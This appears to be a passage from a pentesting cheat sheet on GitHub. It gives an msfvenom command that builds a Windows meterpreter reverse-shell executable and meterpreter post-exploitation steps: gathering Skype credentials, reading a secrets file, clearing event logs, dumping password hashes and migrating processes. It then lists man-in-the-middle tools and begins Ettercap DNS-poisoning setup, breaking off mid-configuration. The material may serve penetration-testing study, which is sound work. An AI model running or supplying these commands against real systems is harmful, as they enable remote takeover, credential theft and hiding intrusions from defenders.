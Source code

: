 ```
> msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe > fileNamed.exe
```
Post exploits usage: 
```
msf6> post/windows/gather/credentials/skype
```
```
meterpreter> cd C:\\Users

meterpreter> pwd
C:\windows\system32

meterpreter> cd C:\\users\\vagrant\\desktop

meterpreter> pwd
C:\users\vagrant\desktop

meterpreter> search secret.txt
Path

meterpreter> cat secret.txt
My password is blah blah

meterpreter> edit secret.txt

meterpreter> clearev (clearing eventlog)

meterpreter> execute file.exe

meterpreter> run post/windows/gather/hashdump (dump the hashes for our buddy John)

meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter> run post/windows/manage/migrate
Migrating into 4398 (you now live inside the computer BACKGROUND)
```
### Tools to use for Pentesting:
- ArpSpoof
- URLSnarf
- MITMF (Man-in-the-middle-framework)
- Ettercap

### Sniffing & Hijacking Session
DNS Cache Poisoning w/ Ettercap: 
Attacker poisons ARP table with his MAC | Victim wants to go to Google.com | The attacker spoofs themself as the DNS server | Victim winds up going to a fake Google. | Gather credentials, etc. <br>
```
root# sysctl -w net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
```
```
root# nano /etc/ettercap/etter.conf
#####################################
ec_uid = 0
ec_gid = 0

(scroll down)

#------------
#   Linux
#------------

```